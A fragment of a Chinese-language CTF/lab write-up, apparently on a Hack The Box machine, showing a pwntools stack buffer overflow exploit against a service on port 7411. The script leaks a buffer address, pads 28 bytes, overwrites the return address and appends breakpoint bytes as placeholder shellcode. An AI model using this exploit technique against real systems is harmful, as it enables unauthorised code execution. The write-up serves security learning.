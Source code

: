 ```python=
p.close()

```

chatgpt解釋了08x是啥
![image](https://hackmd.io/_uploads/rkxHMHIQR.png)

右邊是開啟程序，左邊是可以抓到的addr 0xffffc840 (自己機器上的)
![image](https://hackmd.io/_uploads/rJgI3II7A.png)


#### exploit part 2 

現在抓到了offset 28
userpass -> (題目機器上的) 0xffffd610 & 0xffffc840 (自己機器上的)

```python=
#!/usr/bin/python3

from pwn import *

if args['REMOTE']:
        ip = '10.10.10.34'
else:
        ip = '127.0.0.1'

"""
p = remote(ip,7411)
p.recvuntil(b"OK Ready. Send USER command.")
p.sendline(b"USER admin")
p.recvuntil(b"OK Send PASS command.")
p.sendline(b"DEBUG")
p.recvuntil(b"OK DEBUG mode on.")
p.sendline(b"PASS admin")
p.recvuntil(b"Debug: userpass buffer @ ")
userpass_addr = int(p.recvline(),16)
log.info(f"Got leak of userpass from server: 0x{userpass_addr:08x}")
p.close()

"""

userpass_addr = 0xffffc840

payload = b"A" * 28
payload += p32(userpass_addr + 32)
payload += b"\xCC" * 16

p = remote(ip,7411)
p.recvuntil(b"OK Ready. Send USER command.")
p.sendline(b"USER admin")
p.recvuntil(b"OK Send PASS command.")
p.sendline(b"PASS "+payload)
```

